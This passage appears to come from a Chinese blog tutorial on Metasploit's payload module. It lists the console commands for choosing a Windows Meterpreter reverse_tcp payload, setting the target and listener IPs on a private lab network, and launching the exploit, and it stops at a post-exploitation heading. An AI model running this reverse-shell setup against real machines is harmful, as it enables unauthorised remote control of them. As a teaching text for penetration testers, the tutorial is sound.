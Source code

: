 
![](https://img-blog.csdnimg.cn/20181201224731987.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### Payload攻击载荷模块



攻击载荷是我们期望在目标系统在被渗透攻击之后完成的实际攻击功能的代码，成功渗透目标后，用于在目标系统上运行任意命令。



查看攻击载荷：show  payloads



该命令可以查看当前漏洞利用模块下可用的所有Payload



![](https://img-blog.csdn.net/20181024192015317?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



设置攻击载荷：set payload windows/x64/meterpreter/reverse\_tcp



![](https://img-blog.csdn.net/20181024192157781?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



查看模块需要配置的参数： show  options



![](https://img-blog.csdn.net/20181024192835893?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



设置RHOST，也就是要攻击主机的ip：set   RHOST  192.168.125.138



设置LHOST，也就是我们主机的ip，用于接收从目标机弹回来的shell：set  LHOST 192.168.125.129



如果我们这里不设置lport的话，默认是4444端口监听



![](https://img-blog.csdn.net/20181024193336935?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



攻击： exploit 



![](https://img-blog.csdn.net/20181024145944639?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



后渗透阶段

-----

